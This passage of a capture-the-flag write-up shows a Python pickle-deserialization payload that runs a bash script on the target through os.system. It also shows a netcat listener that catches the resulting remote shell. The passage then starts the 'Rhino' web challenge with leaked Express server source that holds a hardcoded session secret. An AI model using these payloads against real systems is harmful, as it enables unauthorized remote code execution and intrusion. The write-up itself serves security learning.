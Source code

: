 ```python

res = requests.get(url1)


class Test(object):
    def __reduce__(self):
        return (os.system,('''bash /tmp/878''',))

r = pickle.dumps(Test(), protocol=0)
c = base64.b64encode(r)
payload = str(c)[2:-1]

url1 = url + payload

res = requests.get(url1)

```

主機開 `nc -vlk 7877` 來收
![](https://i.imgur.com/nvs0ydR.png)

get shell

### 🦏Rhino
Do you know why is this challenge called Rhino?

https://rhino.ais3.org/

這題滿好玩的，不過當時我沒有解出來QQ

卡在最後一步


首先先用dirsearch可以看到有`/package.json`

![](https://i.imgur.com/ShbILv2.png)

接下來就看出，他有一個chill.js

```javascript
const express = require('express');
const session = require('cookie-session');

let app = express();

app.use(session({
  secret: "I'm watching you."
}));

app.use('/', express.static('./'));

app.get('/flag.txt', (req, res) => {
  res.setHeader('Content-Type', 'text/plain');

  let n = req.session.magic;

  if (n && (n + 420) === 420)
    res.sendFile('/flag');
  else
    res.send('you are a sad person too');
});

app.get('*', function(req, res){
  res.status(404).sendFile('404.html', { root: __dirname });
});

```